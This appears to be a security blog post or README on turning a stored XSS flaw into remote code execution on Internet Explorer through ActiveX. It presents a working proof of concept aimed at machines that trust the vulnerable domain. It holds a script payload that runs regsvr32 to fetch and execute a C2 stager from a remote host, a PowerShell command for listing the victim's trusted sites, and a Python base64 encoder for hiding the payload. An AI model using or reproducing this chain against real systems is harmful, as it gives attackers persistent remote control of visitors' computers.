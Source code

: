 ## XSS to Shell and beyond... 

So I started having a think about XSS (Cross-Site Scripting) issues and whether they could be more serious further.... 

XSS has really always been more about stealing sessions, manipulating users, defacing sites and capturing creds if youre lucky. However, in the post i am going to demonstrate how abusing a trusted domain can lead to one time RCE or a C2 stager on the victims machine. 
Providing certain conditions are met, this could mean that by a user passively visiting a vulnerable site, that there machine could pass us control or permit arbitrary command execution.

### Pre-requisites for this PoC:

- MS Office needs to be on the victims machine (The technique uses VBScript (inside ActiveX) to execute the stager.)
- The users must be using IE (tested to version 11 on Windows 7)
- The vulnerable site needs to be in one of the target companies 'trusted domains/sites', This permits IE to run ActiveX on medium risk setting.

### PoC Summary:

This PoC utilises the trust relationship between the GPO settings applied on workstations and servers to whitelisted trusted domains.

The victim browses to one of these domains where the site is vulnerable to persistent XSS (server stored payload). Non-persistent can also work but this increases the difficulty to exploit.

The payload utilised creates a new activeX object, Wscript.Shell. This object accesses the underlying OS command line. This object can be used to call the Command 'Run' where a command can be specified and executed.

In this case I use 'regsrv32' to fetch a stager beacon from my C2 server. From this the C2 payload is run as a separate process to the browser and window. Therefore if the user closes the browser or session I still have remote command.

### Payload:+

The PoC payload described above (where X is the IP of the C2 server):
```
<script>

	var r = new ActiveXObject("WScript.Shell").Run("cmd /c regsvr32 /s /n /u /i:http://xx.xx.xx.xx:80/a scrobj.dll");

</script>
```
A trick to find out the trusted sites, pop open powershell and run the following:
```
Get-Item "HKLM:\Software\Policies\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMapKey" | select -ExpandProperty Property
```
The visiting user will be prompted once with an ActiveX prompt, if they click yes the payload is executed.

### Obfuscate the payload:

```
#!/usr/bin/python

import sys

if len(sys.argv) <= 1:
	sys.exit('please give a string to encode, surrounded by quotes')
else:
	a = sys.argv[1]
	str = a.encode('base64','strict')
	print str
```
```
./base64encode.py 'payload string'
```

```
<script src="data:text/javascript;base64,{insert base64 value here}"></script>
```

